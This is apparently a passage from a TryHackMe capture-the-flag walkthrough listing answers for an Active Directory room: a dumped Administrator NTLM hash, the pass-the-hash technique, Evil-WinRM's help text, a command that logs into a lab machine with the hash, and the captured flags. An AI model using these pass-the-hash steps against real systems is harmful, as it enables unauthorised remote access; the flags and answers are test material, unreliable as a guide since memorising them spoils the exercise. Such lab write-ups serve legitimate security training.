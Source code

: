 answer
```
aad3b435b51404eeaad3b435b51404ee:e4876a80a723612986d7609aa5ebc12b
```

#3 What method of attack could allow us to authenticate as the user without the password?

```
pass the hash
```

#4 Using a tool called Evil-WinRM what option will allow us to use a hash?

```
kali@kali:~/Downloads$ evil-winrm

Evil-WinRM shell v2.3

Error: missing argument: ip, user

Usage: evil-winrm -i IP -u USER [-s SCRIPTS_PATH] [-e EXES_PATH] [-P PORT] [-p PASS] [-H HASH] [-U URL] [-S] [-c PUBLIC_KEY_PATH ] [-k PRIVATE_KEY_PATH ] [-r REALM]
    -S, --ssl                        Enable ssl
    -c, --pub-key PUBLIC_KEY_PATH    Local path to public key certificate
    -k, --priv-key PRIVATE_KEY_PATH  Local path to private key certificate
    -r, --realm DOMAIN               Kerberos auth, it has to be set also in /etc/krb5.conf file using this format -> CONTOSO.COM = { kdc = fooserver.contoso.com }
    -s, --scripts PS_SCRIPTS_PATH    Powershell scripts local path
    -e, --executables EXES_PATH      C# executables local path
    -i, --ip IP                      Remote host IP or hostname. FQDN for Kerberos auth (required)
    -U, --url URL                    Remote url endpoint (default /wsman)
    -u, --user USER                  Username (required)
    -p, --password PASS              Password
    -H, --hash HASH                  NTHash
    -P, --port PORT                  Remote host port (default 5985)
    -V, --version                    Show version
    -n, --no-colors                  Disable colors
    -h, --help                       Display this help message

```

answer
```
-H
```


[Task 8] Flags 

#1 svc-admin

```
evil-winrm -i 10.10.4.164 -u Administrator -H e4876a80a723612986d7609aa5ebc12b

```

answer
```
*Evil-WinRM* PS C:\Users\svc-admin\Desktop> cat user.txt.txt
TryHackMe{K3rb3r0s_Pr3_4uth}

```
